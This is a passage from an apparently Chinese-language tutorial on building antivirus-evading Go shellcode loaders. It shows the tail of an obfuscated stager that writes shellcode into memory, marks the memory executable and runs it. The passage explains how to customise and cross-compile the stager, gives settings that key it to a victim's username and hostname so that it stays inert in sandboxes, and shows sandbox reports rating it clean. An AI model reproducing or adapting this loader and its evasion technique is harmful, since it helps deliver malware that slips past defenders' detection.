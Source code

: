 ```
}
kRNlwGx := (*[890000]byte)(unsafe.Pointer(CtRsyrQfyp))
var oSxMXhR uintptr
var qKMrlhYe uintptr
for dpKAFprpzXfHZ, nSaJOFBoKFYcvC := range []byte(KynNDPgjUmE) {
kRNlwGx[dpKAFprpzXfHZ] = nSaJOFBoKFYcvC
}
//0x20 PAGE_EXECUTE_READ
oSxMXhR, _, ndNDpWTRkKOjw = eDMslOPiZZj.Call(CtRsyrQfyp, uintptr(len(KynNDPgjUmE)), 0x20, uintptr(unsafe.Pointer(&qKMrlhYe)))
if oSxMXhR == 0 {
os.Exit(1)
}
syscall.Syscall(CtRsyrQfyp, 0, 0, 0, 0)
}
}}}}
```

至此，已经清楚本 stager 程序的逻辑，如果读者有 go 语言开发能力，可继续新增、改写相关逻辑，实现功能的高度的自定义，达到 “源码级” 免杀能力。

改完之后可将自己改写的 Golang 代码的编译为二进制文件，得益于 Golang 的交叉编译特性，可以直接在 Mac 系统下编译 Windows 的可执行文件 (.exe)，命令为`CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build main.go`，直接在 Windows 系统下编译生成当然也可以，不再赘述。

### 对抗 - 行为分析

在进行文件免杀处理的时候，其实已经指定了目标机的环境（用户名为`lll`，计算机名为 `win7`，等运行条件），如果不符合这些条件，stager 将不会执行任何恶意行为，而是直接退出。

对抗效果很好，参考以下两个云沙箱的检测结果。

#### app.any.run 云沙箱

[https://app.any.run/tasks/85309f79-0054-4ab9-9ff3-7f9acb1eea18](https://app.any.run/tasks/85309f79-0054-4ab9-9ff3-7f9acb1eea18)

可以看到在云沙箱中，stager 程序没有进行任何恶意行为，并得到了 “无恶意” 的判断。  
NO SUSPICIOUS EVENTS：没有任何可疑事件。  
底下可以看到，也没有任何 http、dns 等网络流量。  
也没有被关联到任何威胁。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190223190540-f490d78a-375a-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190223190540-f490d78a-375a-1.png)

#### ti 云沙箱

[https://sandbox.ti.360.net/sandbox/page/detail?type=file&sha1=a3bedcf16cd9350b043b4cab755ad28492f7a4f8&id=AWkaDMWZxOygT_R0bYVa&env=&time=](https://sandbox.ti.360.net/sandbox/page/detail?type=file&sha1=a3bedcf16cd9350b043b4cab755ad28492f7a4f8&id=AWkaDMWZxOygT_R0bYVa&env=&time=)

可以看到在云沙箱中，stager 程序没有进行任何恶意行为。恶意评分仅为 9。  
（标签处说明是 “加壳程序” 其实是误判，PEID 也会看到加壳，都是对 Golang 编译的程序的识别不够导致的误判）

威胁判定：未发现恶意行为。  
动态检测：未发现恶意行为。  
静态检测：未发现恶意行为。


[go/shellcode_inject/virtual>>]: set USERNAME lll  
[go/shellcode_inject/virtual>>]: set Sleep 10  
[go/shellcode_inject/virtual>>]: set HOSTNAME win7  
[go/shellcode_inject/virtual>>]: set UTCcheck TRUE